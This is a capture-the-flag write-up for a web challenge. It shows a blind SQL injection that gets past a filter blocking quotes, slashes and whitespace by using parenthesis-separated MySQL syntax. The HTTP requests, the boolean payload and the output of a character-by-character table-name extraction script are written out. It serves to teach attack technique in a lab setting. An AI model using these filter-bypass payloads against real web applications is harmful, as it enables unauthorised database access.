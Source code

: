 # WEB200
## Description
San Tzu Said : 

"Einstein would have been a good DBA, too ... 
What a DBA team : Shakespeare and Einstein ...
But who they will name tables ? that'is the question"

## Solution
According to the challenge's description, the flag in the name of a table (starting with FLAG_).
So We need to exploit an SQL injection to resolve this challenge.

We start by injecting a simple quote in the id parametre using the folowing HTTP request :

```
GET /index.php?id=%27 HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Firefox/20.0 Iceweasel/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

But it seems that there is a filtering mechanism which block/detecte malicious charcters :

```
HTTP/1.1 200 OK
Date: Sat, 30 May 2015 22:45:40 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 17
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

Attack Detected !
```

First, we need to determine what pattern is used by the target in order to bypass it later. For example, we can try to inject all possible ascii code and compre response :

```
tmr@desktop:~$ python pattern_detector.py
[+]   is filtred  //whitespace
[+] " is filtred  //quotes
[+] ' is filtred
[+] / is filtred  // slashe
[+] \ is filtred  // anti-slashe
```

As you can see above whitespace slaches and quotes are all catched by the target. But MySQL offer the possibility to avoid whitespaces by using parenthesis to seperate SQL keywords. 

For example, you can inject a boolean expression :


```
GET /index.php?id=(null)or(1)=(1) HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Iceweasel
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

We get a valid reponse from the server (the profil page is displyed correctly) :

```
HTTP/1.1 200 OK
Date: Sat, 30 May 2015 23:23:37 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 3827
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html


<!doctype html>
<html lang="en-US">
<head>
  <meta charset="utf-8">
  <meta http-equiv="Content-Type" content="text/html">
  <title>User Profile s...
```

Then, you can craft your own exploit to guess the table name :


```
tmr@desktop:~$ python exploit.py 
[+] Blind SQL Injection Exploit Using LIKE Technic 
[+] New Guessed Char : E
FLAG_E
[+] New Guessed Char : N
FLAG_EN
[+] New Guessed Char : T
FLAG_ENT
[+] New Guessed Char : A
FLAG_ENTA
[+] New Guessed Char : Y
FLAG_ENTAY
[+] New Guessed Char : A
FLAG_ENTAYA
[+] New Guessed Char : _
FLAG_ENTAYA_
[+] New Guessed Char : M
FLAG_ENTAYA_M
[+] New Guessed Char : 3
FLAG_ENTAYA_M3
[+] New Guessed Char : A
FLAG_ENTAYA_M3A
[+] New Guessed Char : L
FLAG_ENTAYA_M3AL
[+] New Guessed Char : E
FLAG_ENTAYA_M3ALE
[+] New Guessed Char : M
FLAG_ENTAYA_M3ALEM
```

That's it !
